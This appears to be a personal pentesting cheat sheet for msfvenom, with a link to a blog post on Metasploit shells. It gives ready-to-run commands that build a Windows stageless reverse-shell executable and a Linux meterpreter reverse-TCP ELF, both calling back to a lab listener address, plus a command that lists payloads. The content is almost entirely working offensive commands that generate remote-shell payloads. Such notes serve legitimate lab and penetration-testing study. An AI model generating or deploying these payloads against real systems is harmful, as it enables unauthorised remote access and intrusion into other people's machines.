 ```yaml
---
tags: [shell]
---
```

# msfvenom

- [Metasploit Shell - InterceptZero](https://www.interceptzero.com/blog/metasploit-shell/)

## Windows TCP reverse shell (stageless) without meterpreter

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f exe > rewin.exe
```

## Linux 32bit TCP reverse shell (staged) with meterpreter

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.11.0.75 LPORT=9999 -f elf > reverse.elf
```

## List payloads with filters

```
msfvenom --list payloads --arch x64 --platform linux
```
